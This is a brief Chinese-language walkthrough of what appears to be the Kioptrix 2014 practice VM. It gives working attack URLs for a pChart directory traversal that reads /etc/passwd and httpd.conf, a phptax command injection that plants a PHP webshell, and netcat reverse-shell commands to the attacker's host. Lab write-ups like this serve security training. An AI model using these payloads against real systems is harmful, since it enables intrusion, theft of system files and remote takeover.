

# level 2014

## 目录穿越漏洞

1. 访问<http://192.168.205.144/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd>  
即可获得passwd文件内容  
2. 访问8080端口
    + 访问<https://cwiki.apache.org/confluence/display/HTTPD/DistrosDefaultLayout>
    + 由nmap扫描得为`80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`  
    + 然后访问<http://192.168.205.144/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fusr/local/etc/apache22/httpd.conf>
    + 查看后发现只需修改代理为`Mozilla/4.0 Mozilla4_browser`,即可正常访问8080端口  
    
3. phptax远程代码执行漏洞  
    + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;whoami%20%3E%20%20whoami.txt&pdf=make>访问后访问<http://192.168.205.144:8080/phptax/whoami.txt>发现用户为www
4. 构建一句话Webshell`<?php system($_GET["cmd"]); ?>`  
   + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;echo%20%22%3C?php%20system(\$_GET[\%22cmd\%22]);?%3E%22%20%3E%20shell.php;&pdf=make>进行构建  
   + <http://192.168.205.144:8080/phptax/shell.php?cmd=id>查看是否构建成功  
5. 构建反弹shell  
   + <http://192.168.205.144:8080/phptax/index.php?pfilez=1040pg1.tob;nc%20-e%20/bin/bash%20192.168.205.138%208888;&pdf=make>无反应（nc e命令参数被禁用）  
   + 使用`nc 192.168.205.138 8888 >reverse_shell.php`<http://192.168.205.144:8080/phptax/shell.php?cmd=nc%20192.168.205.138%208888%20%3E%20reverse_shell.php>
   在主机`nc -lvp 8888 < php_reverse_shell.php`(位于`/usr/share/webshells/php`,需要修改**ip,port**)
   + 使用nc监听8888，同时访问<http://192.168.205.144:8080/phptax/reverse_shell.php>
